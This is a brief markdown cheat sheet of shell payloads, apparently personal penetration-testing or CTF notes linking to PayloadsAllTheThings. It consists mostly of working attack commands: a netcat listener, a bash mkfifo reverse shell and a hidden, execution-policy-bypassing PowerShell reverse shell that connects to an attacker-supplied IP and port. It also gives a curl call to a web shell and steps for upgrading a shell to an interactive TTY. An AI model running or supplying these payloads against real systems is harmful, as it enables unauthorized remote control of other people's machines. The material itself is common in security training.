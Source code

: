 # Shell stuff
## Reverse Shell ([More Info](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md))
- netcat
```
nc -lvnp 1234
```
Payloads:
- Bash (Linux)
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {MY IP} {PORT} >/tmp/f
```
- PowerShell (Windows)
```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("{MY IP}",{PORT});$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
## Web Shell 
- web browser/curl
```
Curl http://{YOURWEBSITE}/payload.php?cmd={COMMANDS}
```
Payloads:

## Getting interactive shell:
- In netcat
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
> press `Ctrl +Z`
```
stty raw -echo
fg
```
> press `Enter`
